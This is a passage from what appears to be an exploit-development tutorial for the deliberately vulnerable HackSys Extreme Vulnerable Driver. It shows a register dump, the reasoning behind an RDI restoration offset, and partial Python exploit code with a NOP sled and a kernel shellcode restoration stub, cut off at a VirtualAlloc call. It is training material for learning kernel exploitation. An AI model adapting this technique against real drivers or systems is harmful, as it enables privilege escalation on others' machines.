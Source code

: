![](/assets/images/AWE/registers.PNG)

We see that we have these register values: 
```
rax=0000000000000000 rbx=fffffa80062e06a0 rcx=fffff88004f7efe0
rdx=0000077ffd394e20 rsi=fffffa8005539d10 rdi=fffffa80062e05d0
rip=fffff880038815f4 rsp=fffff88004f7f7e8 rbp=0000000000000001
 r8=0000000000000000  r9=0000000000000000 r10=4141414141414141
r11=fffff88004f7f7e0 r12=fffffa8005b77370 r13=0000000000000000
r14=fffffa80062e06e8 r15=0000000000000003
```

Our target, RDI has an offset of `d0` with RBX (RBX - RDI = `0xd0`). So what we can do then, is in our restoration stub of our shellcode, we can load RBX into RDI and then subtract `0xd0` from RDI and we should end up with the right value. 

Let's try to get a clean run through with no crash. Our updated exploit code looks like this now:
```python
import ctypes, sys, struct
from ctypes import *
from subprocess import *
import time

kernel32 = windll.kernel32

hevd = kernel32.CreateFileA(
        "\\\\.\\HackSysExtremeVulnerableDriver", 
        0xC0000000, 
        0, 
        None, 
        0x3, 
        0, 
        None)
    
if (not hevd) or (hevd == -1):
    print("[!] Failed to retrieve handle to device-driver with error-code: " + str(GetLastError()))
    sys.exit(1)
else:
    print("[*] Successfully retrieved handle to device-driver: " + str(hevd))

shellcode1 = (
"\x90" * 100                                               
)

restoration_stub = (
"\x48\x83\xc4\x28"               # add rsp,0x28 
"\x48\x89\xDF"                   # mov rdi,rbx
"\x48\x81\xEF\xD0\x00\x00\x00"   # sub rdi,0xd0
"\xc3"                           # ret
)

shellcode = shellcode1 + restoration_stub

addr = kernel32.VirtualAlloc(
    c_int64(0),
```